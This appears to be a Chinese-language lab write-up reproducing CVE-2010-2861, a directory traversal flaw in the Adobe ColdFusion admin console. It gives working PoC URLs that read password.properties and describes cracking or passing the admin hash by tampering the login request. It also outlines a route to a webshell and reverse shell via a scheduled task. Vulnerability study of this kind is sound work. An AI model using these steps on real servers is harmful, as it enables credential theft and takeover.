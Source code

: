 # Adobe ColdFusion文件读取漏洞(CVE-2010-2861)

###### by ADummy

### 0x00利用路线

​			第三方UI与目标进行通信--->搭建http服务器--->让目标下载恶意文件--->定时任务执行--->反弹shell

### 0x01漏洞介绍

​			AdobeColdFusion是一款高效的网络应用服务器开发环境。AdobeColdFusion9.0.1及之前版本的管理控制台中存在多个目录遍历漏洞。远程攻击者可借助向CFIDE/administrator/中的CFIDE/administrator/settings/mappings.cfm，logging/settings.cfm，datasources/index.cfm，j2eepackaging/editarchive.cfm和enter.cfm发送的locale参数读取任意文件。

##### 			**影响版本**

```
	ColdFusion MX6 6.1 base patches  
    ColdFusion MX7 7,0,0,91690 base patches        无补丁
    ColdFusion MX8 8,0,1,195765 base patches  
    ColdFusion MX8 8,0,1,195765 with Hotfix4
```

##### 			查看版本信息tips:

```
	 http://target.com/CFIDE/adminapi/base.cfc?wsdl
```

### 0x02漏洞复现

##### poc：

```
http://target.com/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en

http://target.com/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en

http://target.com/CFIDE/administrator/enter.cfm?locale=../../../../../../../servers/cfusion/cfusion-ear/cfusion-war/WEB-INF/cfusion/lib/password.properties%00en	
```

#### 			文章有exp链接，需要自取

​			**服务器启动可能需要1到5分钟。之后，访问`http://your-ip:8500/CFIDE/administrator/enter.cfm`以查看初始化页面，输入密码`admin`以初始化整个服务器。**

![Adobe_ColdFusion文件读取漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Adobe_ColdFusion文件读取漏洞_1.jpg)

​			**/etc/passwd**

![Adobe_ColdFusion文件读取漏洞_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Adobe_ColdFusion文件读取漏洞_2.jpg)

​			**后台管理员密码**

![Adobe_ColdFusion文件读取漏洞_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Adobe_ColdFusion文件读取漏洞_3.jpg)

​			**密码是用sha-1加密过的，可以到http://www.md5decrypter.co.uk/sha1-decrypt.aspx这儿去破解下**

**破解出来后直接登录即可。**

![Adobe_ColdFusion文件读取漏洞_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Adobe_ColdFusion文件读取漏洞_4.jpg)

​			**后台获取webshell，添加计划任务后执行，远程下载一个shell到本地目录**

PS:以下我没复现出来，有复现出来的大佬带带弟弟。

Tips(摘抄自文章末链接)： 如果密码破解不出怎么办？放弃？当然不是，这里有个小技巧。coldfusion的密码在验证的时候，是把输入的密码加salt进行HMAC hash后传给服务器，由服务器去计算后验证。所以这时候我们只要传输过去正确的加密后的密码即可成功进入，而不必在那破密码了。但是问题是如何计算 HMAC值。

其实方法很简单，只要用js调用页面里的加密函数即可(页面每30秒刷新一次，所以下手要快)，方法如下，这里我用firebug演示了～：

1.F12调出管理控制台

2.进入控制台选项

3.在下面输入hex_hmac_sha1(document.loginform.salt.value,”password”) password是你获取到的那个加密后的密码

4.回车，得到一个字符串，如下图：

5.打开burpsuit或者什么的，用来修改数据包用到，这里用tamper data插件，点击start tamper 后点登录，截断修改传送的cfadminPassword值为上面js获取的那个字符串值

6.一路submit，成功不用解密密码进入后台

![Adobe_ColdFusion文件读取漏洞_5](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Adobe_ColdFusion文件读取漏洞_5.jpg)

### 0x03参考资料

https://www.cnblogs.com/mujj/articles/3714722.html

exp:https://github.com/ADummmy/vulhub_Writeup/blob/main/code/Adobe_ColdFusionCVE-2010-2861.py



